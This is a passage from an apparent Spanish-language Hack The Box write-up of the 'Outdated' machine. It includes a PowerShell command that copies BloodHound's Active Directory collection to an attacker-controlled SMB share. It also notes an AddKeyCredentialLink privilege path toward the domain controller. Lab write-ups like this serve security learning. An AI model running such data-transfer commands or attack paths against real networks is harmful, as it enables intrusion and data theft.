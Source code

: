Copio el zip a mi equipo

```null
PS C:\Temp> copy .\20230117153605_BloodHound.zip \\10.10.14.2\shared\bh.zip
```

Abro BloodHound y subo los datos

```null
sudo neo4j console
bloodhound
```

Una vez cargados los datos, busco el usuario Btables y lo marco como pwneado

Destaca lo siguiente:

<img src="/writeups/assets/img/Outdated-htb/3.png" alt="">

El usuario Btables es miembro del grupo ITStaff y Sflowers tiene el privilegio AddKeyCredentialLink sobre ese grupo y además puede obtener una consola interactiva sobre el DC.

En el panel de ayuda se puede ver en consiste ese grupo

<img src="/writeups/assets/img/Outdated-htb/4.png" alt="">
